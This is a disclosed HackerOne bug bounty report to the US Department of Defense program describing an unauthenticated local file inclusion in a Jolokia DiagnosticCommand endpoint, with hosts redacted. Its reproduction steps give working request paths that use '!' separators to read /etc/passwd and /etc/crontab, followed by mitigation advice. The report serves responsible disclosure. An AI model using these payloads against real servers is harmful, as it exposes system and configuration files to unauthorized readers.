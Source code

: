 # Unauthenticated LFI (Local File Inclusion) using the symbol `!` At the target `https://████/`

## Report Details
- **Report ID**: 2778380
- **URL**: https://hackerone.com/reports/2778380
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-10-12T04:22:23.795Z
- **Disclosed**: 2024-10-25T16:03:24.555Z

## Reporter
- **Username**: todayisnew-
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi `DOD` Team,

# Summary:

* When accessing the endpoint on https://██████████/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/ it is possible to path traversal on the machine and reading local files by using `!` at every new directory injected allowing an attacker to read local files with even being Unauthenticated leads to a catastrophic impact on the main server.

# Steps to reproduce:

**1. Read the listed users on the instance ---> `/etc/passwd`:**

* https://███/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd

**2. Read Crontab jobs on the instance ---> `/etc/crontab`:**

* https://████/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/crontab


# PoC Video:

* ████


# Mitigation/Fix:

* Sanitize user input and don't trust user inputs that come for your server in a `GET` method after the endpoint `/compilerDirectivesAdd/{Attackers_Coming_From_Here_To_Read_Local_Files}`, it would be better to maintain a whitelist of acceptable filenames and use a unique corresponding identifier to access the file. Then any request containing an invalid identifier can just be rejected. Additionally, you could also sanitize any path traversal characters that may be present in any `GET` request.

## Impact

An attacker could read local files on the web server that they would normally not have access to, such as the application source code or configuration files containing sensitive information on how the website is configured, etc...

Best Regards,
Youssef


## Attachments
No attachments
